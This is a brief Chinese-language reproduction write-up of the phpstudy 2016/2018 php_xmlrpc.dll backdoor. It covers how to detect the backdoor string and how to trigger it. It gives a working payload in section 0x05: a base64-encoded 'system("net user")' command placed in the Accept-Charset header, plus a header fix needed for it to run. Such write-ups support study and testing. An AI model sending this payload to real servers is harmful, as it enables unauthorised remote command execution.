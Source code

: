 # 0x00 软件介绍
phpstudy：流行的php集成部署环境

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：phpstudy 2018

# 0x02 环境搭建
后门代码存在于phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45中的\ext\php_xmlrpc.dll模块中，用记事本打开此文件，查找“@eval”，若文件存在“@eval(%s('%s'));”则存在后门，如下图  
![image](./0.png)  
下载并安装phpstudy 2018，按照提示下一步即可

# 0x03 利用条件
无

# 0x04 影响版本
phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

burp抓包，请求头中添加如下数据：Accept-Charset:ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7  
上述字符串是“echo system("net user");”base64编码后的字符串
![image](./1.png)  
需要注意，发送的数据包头部中：Accept-Enconding:gzio, deflate有一处问题
,与deflate中间有一个空格，需要手动删除，不然无法成功执行命令

# 0x06 踩坑记录
无

# 0x07 参考链接
无
